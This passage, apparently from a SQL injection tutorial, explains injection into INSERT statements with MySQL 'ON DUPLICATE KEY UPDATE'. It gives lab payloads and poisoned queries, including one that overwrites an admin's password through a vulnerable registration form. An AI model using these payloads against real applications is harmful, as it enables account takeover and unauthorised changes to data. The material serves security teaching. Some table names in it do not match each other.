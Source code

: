 > `SELECT` statement cannot have an `INSERT` or `UPDATE` statement as a sub-select query, so in this case it must be done through stacked SQL queries. On the other hand, if there is a SQL injection in `INSERT` or `UPDATE`, an attacker would need to take advantage of stacked queries to fetch data.

### Duplicate key-based insertion to update a value on the same table

When a primary key is set for a column then we can update any columns on the same table.

```
# http://localhost:5000/case03
# update `age` => INT column of the tbl_post03()
# table used in the query: tbl_post03()
# structure: `comment` => VARCHAR, city => VARCHAR, `age` => INT, user => VARCHAR, primary key(user)
# attacker controls the comment column

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous')
payload = hola', 'mountain view', 25, 'admin') ON DUPLICATE KEY UPDATE age = 29#

poisoned query = INSERT INTO tbl_post02() VALUES('hola', 'mountain view', 25, 'admin') ON DUPLICATE KEY UPDATE age = 29#', 100, 22, 'anonymous')

# update `comment` => VARCHAR column of the tbl_post03()
# table used in the query: tbl_post03()
# structure: `comment` => VARCHAR, city => VARCHAR, `age` => INT, user => VARCHAR, primary key(user)
# attacker controls the age column

query = INSERT INTO tbl_post03() VALUES('hello', 100, 22, 'anonymous')
payload = 30, 'admin') ON DUPLICATE KEY UPDATE comment = 'Hola!'#

poisoned query = INSERT INTO tbl_post03() VALUES('hello', 100, 30, 'admin') ON DUPLICATE KEY UPDATE comment = 'Hola!'#, 'anonymous')

```

**Authentication bypass if registration page is vulnerable for SQLi**

Lets assume, follwoing query is used in the registration page and primay key (email).

```
query = INSERT INTO users (email, password) VALUES ('your_email_input', 'bcrypt_hash_of_your_password_input);

If we know any user's email then we can change his password.

payload = attacker_dummy@example.com', 'bcrypt_hash_of_qwerty'), ('admin@example.com', 'bcrypt_hash_of_qwerty') ON DUPLICATE KEY UPDATE password='bcrypt_hash_of_qwerty')#

poisoned query = INSERT INTO users (email, password) VALUES ('attacker_dummy@example.com', 'bcrypt_hash_of_qwerty'), ('admin@example.com', 'bcrypt_hash_of_qwerty') ON DUPLICATE KEY UPDATE password='bcrypt_hash_of_qwerty')#', 'bcrypt_hash_of_your_password_input');

# is there any problem if we try to trigger the duplicate key update on the first entry instead of second?

poisoned query = INSERT INTO users (email, password) VALUES ('admin@example.com', 'bcrypt_hash_of_qwerty') ON DUPLICATE KEY UPDATE password='bcrypt_hash_of_qwerty')#', 'bcrypt_hash_of_your_password_input);

it might possible app checks for the existing user before executing the INSERT query. due to this, the above payload may not get a change to execute and blocked by the previous SELECT query.
```

